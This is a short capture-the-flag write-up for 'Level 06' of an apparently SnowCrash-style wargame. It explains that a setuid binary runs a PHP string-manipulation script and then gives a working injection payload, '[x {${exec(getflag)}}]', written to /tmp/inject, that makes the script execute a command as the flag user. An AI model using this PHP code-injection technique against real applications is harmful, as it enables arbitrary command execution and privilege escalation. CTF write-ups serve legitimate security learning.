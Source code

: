 # Level 06

Now, we have PHP script who do string manipulation and a level06 executable owned by flag06 who execute level06.php.

```sh
$ php -v
PHP 5.3.10-1ubuntu3.19 with Suhosin-Patch (cli) (built: Jul  2 2015 15:05:54) 
Copyright (c) 1997-2012 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2012 Zend Technologies
```

```sh
$ echo '[x {${exec(getflag)}}]' > /tmp/inject
$ ./level06 /tmp/inject
```